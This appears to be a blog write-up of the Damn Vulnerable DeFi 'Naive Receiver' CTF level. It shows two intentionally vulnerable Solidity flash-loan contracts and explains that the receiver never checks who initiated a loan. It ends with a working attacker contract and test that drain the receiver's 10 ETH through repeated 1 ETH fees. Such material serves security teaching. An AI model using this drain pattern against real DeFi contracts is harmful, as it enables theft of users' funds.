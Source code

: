 ```yaml
---
title: Damn Vulnerable DeFi V3 - Naive Receiver - Solution
date: '2024-07-02'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Damn Vulnerable DeFi V3 - Naive Receiver CTF
---
```


# Damn Vulnerable DeFi V3 - Naive Receiver - Solution

## Contract

_FlashLoanReceiver.sol_

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";

/**
 * @title FlashLoanReceiver
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FlashLoanReceiver is IERC3156FlashBorrower {

    address private pool;
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    error UnsupportedCurrency();

    constructor(address _pool) {
        pool = _pool;
    }

    function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }

    // Allow deposits of ETH
    receive() external payable {}
}
```

_NaiveReceiverLenderPool.sol_

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "solady/src/utils/SafeTransferLib.sol";
import "./FlashLoanReceiver.sol";

/**
 * @title NaiveReceiverLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract NaiveReceiverLenderPool is ReentrancyGuard, IERC3156FlashLender {

    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");

    error RepayFailed();
    error UnsupportedCurrency();
    error CallbackFailed();

    function maxFlashLoan(address token) external view returns (uint256) {
        if (token == ETH) {
            return address(this).balance;
        }
        return 0;
    }

    function flashFee(address token, uint256) external pure returns (uint256) {
        if (token != ETH)
            revert UnsupportedCurrency();
        return FIXED_FEE;
    }

    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }

    // Allow deposits of ETH
    receive() external payable {}
}
```

## Solution

Before attempting this challenge, I highly recommend familiarizing yourself with [flash loans](https://www.rareskills.io/post/erc-3156).

The goal of this level is to reduce the entire balance of `FlashLoanReceiver` from 10 ETH to 0 ETH.

First, notice that `NaiveReceiverLenderPool` provides flash loans at a fixed fee of 1 ETH.
Second, notice that the receiver's `onFlashLoan()` disregards its `initiator` parameter, letting anyone initiate flash loans.
Therefore, we can solve this level by making ten subsequent calls to `flashLoan()` on the `FlashLoanReceiver`'s behalf.
To pull off the attack in a single transaction, we can deploy an attacker contract that makes those calls via a loop in its constructor:

_NaiveReceiverAttacker.sol_

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface INaiveReceiverLenderPool {
    function flashLoan(
        address receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool);
}


contract NaiveReceiverAttacker {

    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    constructor(address pool, address receiver) {
        for (uint256 i; i < 10; i++) {
            INaiveReceiverLenderPool(pool).flashLoan(receiver, ETH, 0, "0x");
        }
    }
}
```

_naive-receiver.challenge.js_

```javascript
...
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    const AttackerFactory = await ethers.getContractFactory('NaiveReceiverAttacker', player);
    await AttackerFactory.deploy(pool.address, receiver.address);
});
...
```
